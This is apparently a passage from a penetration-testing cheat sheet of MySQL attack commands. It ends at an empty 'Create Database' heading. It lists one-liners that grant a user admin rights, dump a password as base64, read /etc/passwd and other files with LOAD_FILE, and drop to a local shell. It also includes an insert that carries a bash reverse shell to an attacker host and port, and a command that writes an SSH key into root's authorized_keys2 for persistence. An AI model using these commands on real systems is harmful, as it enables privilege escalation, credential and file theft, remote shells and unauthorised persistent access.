 ### Update User Privileges

```console
mysql> UPDATE user set is_admin = 1 where name = "<USERNAME>";
```

### Base64 Encoding

```console
mysql> SELECT TO_BASE64(password) FROM accounts where id = 1;
```

### Read a File

```console
mysql> SELECT LOAD_FILE('/etc/passwd');
mysql> SELECT LOAD_FILE('C:\\PATH\\TO\\FILE\\<FILE>');
mysql> SELECT CAST(LOAD_FILE('/etc/passwd') AS CHAR)\G;
```

### User Privilege Check

```console
mysql> SELECT group_concat(grantee, ":",privilege_type) FROM information_schema.user_privileges
```

### File Privilege Check

```console
mysql> SELECT file_priv FROM mysql.user WHERE user = 'netspi'
mysql> SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee LIKE '%netspi%'
```

### Drop a Shell

```console
mysql> \! sh;
mysql> \! /bin/sh;
```

### Insert Code to get executed

```console
mysql> insert into users (id, email) values (<LPORT>, "- E $(bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1')");
```

### Write SSH Key into authorized_keys2 file

```console
mysql> SELECT "<KEY>" INTO OUTFILE '/root/.ssh/authorized_keys2' FIELDS TERMINATED BY '' OPTIONALLY ENCLOSED BY '' LINES TERMINATED BY '\n';
```

### Create Database
